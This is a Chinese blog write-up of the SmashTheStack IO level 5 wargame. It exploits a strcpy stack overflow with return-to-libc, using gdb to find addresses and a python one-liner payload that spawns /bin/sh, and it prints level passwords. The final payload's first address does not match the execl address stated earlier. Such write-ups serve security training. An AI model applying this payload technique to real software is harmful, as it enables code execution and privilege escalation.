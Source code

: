 title: SmashTheStack IO level5
date: 2015-05-30 15:20:56
tags: 
- 缓冲区溢出
- Smash the Stack
categories: Smash the Stack
---
密码：LOoCy5PbKi63qXTh
<!-- more -->
# I、源代码
## ① 源代码
```
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[128];

    if(argc < 2) return 1;

    strcpy(buf, argv[1]);

    printf("%s\n", buf);

    return 0;
}
```
## ② 执行结果
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1esmcb5wlznj30k201lq34.jpg)
# II、相关知识
 - 最基本的缓冲区溢出 level3就是基本缓冲区溢出例子，相信大家都了解了
 - [ret2lib](http://www.ibm.com/developerworks/cn/linux/1402_liumei_rilattack/)        原理有点长，我就不赘述了，大家可以参考我给的链接，也可以自己找原理

# III、找漏洞
## ① 思路
观察前几关的程序，需要构造输入的，最终的目的是执行execl("/bin/sh")
所以我首先想到的是，构造输入，修改main返回地址，让其指向库函数execl()起始地址，为了让execl正常返回，exit()地址入栈，然后参数"/bin/sh"入栈
栈结果如图：
![](http://ww2.sinaimg.cn/large/005CA6ZCjw1esmcbnj1jlj30oe0esac4.jpg)
## ② 引入环境变量
不存在值为"/bin/sh"的环境变量，首先引入环境变量BIN_SH（名字自拟），在同一个shell下，地址不变
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1esmcczmmznj30k5021aag.jpg)
## ③ gdb调试
查看buf，ret地址,计算两者的差距
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1esmcc9q14yj30k30bmgom.jpg)
![](http://ww2.sinaimg.cn/large/005CA6ZCjw1esmcci3a7vj30k309mafx.jpg)

buf：0xbffffbb0，ret：0xbffffc3c，两者相差 0x8c
因此<font color="red">输入格式：</font> "A"*0x8c + execl()起始地址 + exit()起始地址 + "/bin/sh"起始地址
## ④ 查看execl()、exit()、"/bin/sh"地址
在调试过程中可以p system     p exit 就可以查看了
环境变量BIN_SH在栈的下面，x/1000s 0xbffffbb0  可以打印出从0xbffffbb0开始的1000个字符（具体单位我也不清楚，大家自己百度），一直向下查看就可以找到BIN_SH了
![](http://ww1.sinaimg.cn/large/005CA6ZCjw1esmccofiyfj30k307mwh3.jpg)
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1esmcdday4nj30k30c375r.jpg)

execl  : 0xb7f0f3f0
exit   : 0xb7e9d270
BIN_SH=/bin/sh : 0xbfffff6f
/bin/sh : 0xbfffff76

## ⑤ 校正"/bin/sh"地址
现在来验证下BIN_SH的地址是否正确
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1esmcdvn3mzj30k302jmyt.jpg)
这个是调用execl()函数时，参数出错提示，说明execl地址正确
根据我的血泪史，一般函数地址这样查找都没有错，环境变量的地址一般不正确
经过我多次测试，/bin/sh : 0xbfffff70
<font color="red">PS：</font>我的校正方法
在/tmp 目录下新建一个自己的文件夹 star
进入 star 文件夹  ：cd star
想办法生成core文件，调试时，加上core文件，gdb ./level05 core -q  ，然后查看 BIN_SH 的地址
## ⑥ 获得密码
输入格式 "A"*0x8c + "0xb7f0f3f0" + "0xb7e9d270" + "0xbfffff70"

"$(python -c 'print "A"*0x8c + "\x30\x9c\xea\xb7" + "\x70\xd2\xe9\xb7" + "\x70\xff\xff\xbf" ')"
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1esmce74oxcj30k203iabv.jpg)

OK！！！ 密码get：rXCikld0ex3EQsnI

